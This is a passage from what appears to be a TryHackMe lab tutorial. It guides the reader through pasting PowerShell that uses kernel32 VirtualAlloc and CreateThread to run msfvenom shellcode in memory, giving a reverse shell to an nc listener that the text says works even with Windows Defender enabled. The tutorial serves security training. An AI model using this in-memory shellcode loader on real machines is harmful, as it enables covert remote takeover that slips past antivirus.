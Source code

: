 ```shell
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   
```

Then paste the line below, replacing the placeholder with the shellcode generated by msfvenom, and press `Enter`.

```shel
[Byte[]] $buf = SHELLCODE_PLACEHOLDER
```

Continue copying and pasting the lines from the code below. Remember, copy one line at a time, paste it, and press `Enter`.

```powershell
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

**Note**: If your PowerShell terminal unexpectedly closes, it means your `nc` listener was not reachable, possibly because it was not running or was listening on the wrong port or IP.

If you've done it properly, the PowerShell terminal in the VM will look like the screenshot below:

![PowerShell screenshot after executing the script](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1732698537726.png)  

Once you execute the final line in the PowerShell terminal and press `Enter`, you will get a reverse shell in the AttackBox, giving you complete access to the computer even if the Windows Defender is enabled. Now you can issue any command, like issuing `dir`, which will list all the directories.

![successful shell screenshot](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1727972837925.png)

## Regaining Access

_Now Glitch must act, no time to delay,_

_To fix the shellcode and keep foes at bay._

_He tweaks and he codes to set the wrongs right,_
